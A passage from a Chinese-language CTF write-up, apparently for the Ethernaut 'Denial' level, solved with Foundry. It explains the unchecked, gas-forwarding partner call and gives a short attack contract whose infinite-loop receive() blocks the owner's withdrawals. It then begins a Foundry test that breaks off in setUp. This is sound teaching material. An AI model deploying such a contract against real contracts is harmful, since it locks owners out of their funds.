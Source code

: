 漏洞点非常明确：

1.  **任意设置 `partner`**: 任何人都可以调用 `setWithdrawPartner()` 来设置 `partner` 地址。这意味着我们可以将 `partner` 设置为我们自己控制的恶意合约。
2.  **未检查的外部调用**: `partner.call{value: amountToSend}("")` 是一个对外部合约的调用。关键在于，代码**没有检查 `call` 的返回值**。如果这个 `call` 失败，函数会继续执行。
3.  **Gas 转发**: `call` 默认会转发所有剩余的 Gas。如果 `partner` 合约的 `receive()` 或 `fallback()` 函数是一个 Gas 陷阱（例如，一个无限循环），它将耗尽所有 Gas，导致整个 `withdraw()` 交易因 `out of gas` 而失败。

攻击思路就是利用这一点。我们将部署一个恶意合约，并将其设置为 `partner`。当 `owner` 调用 `withdraw()` 时，对我们恶意合约的 `call` 将会执行，触发我们的恶意逻辑，从而使整个交易失败。

我们的恶意合约只需要一个 `receive()` 函数，其中包含一个无限循环：

```solidity
contract MaliciousPartner {
    receive() external payable {
        // Consume all gas
        while (true) {}
    }
}
```

当 `withdraw()` 函数向这个合约发送以太币时，`receive()` 函数被触发，进入无限循环，耗尽所有 Gas，导致 `withdraw()` 交易 `revert`。`owner` 永远无法成功提取资金。

## 💻 Foundry 实现

### 攻击合约代码

攻击合约非常简单，只需要一个 `receive()` 函数。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// 恶意合约，用于发动 DoS 攻击
contract Attack {
    // 当接收到以太币时，进入无限循环以耗尽所有 Gas
    receive() external payable {
        while (true) {}
    }
}
```

### Foundry 测试代码

测试代码需要验证 `withdraw()` 调用确实失败了。我们可以使用 Foundry 的 `vm.expectRevert()` 来实现这一点。

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/20_Denial.sol";

contract DenialTest is Test {
    Denial instance;
    Attack attacker;
    address owner;
    address player; // 攻击者

    function setUp() public {
        owner = vm.addr(1);
        player = vm.addr(2);

        // 部署 Denial 合约并存入 1 ether
```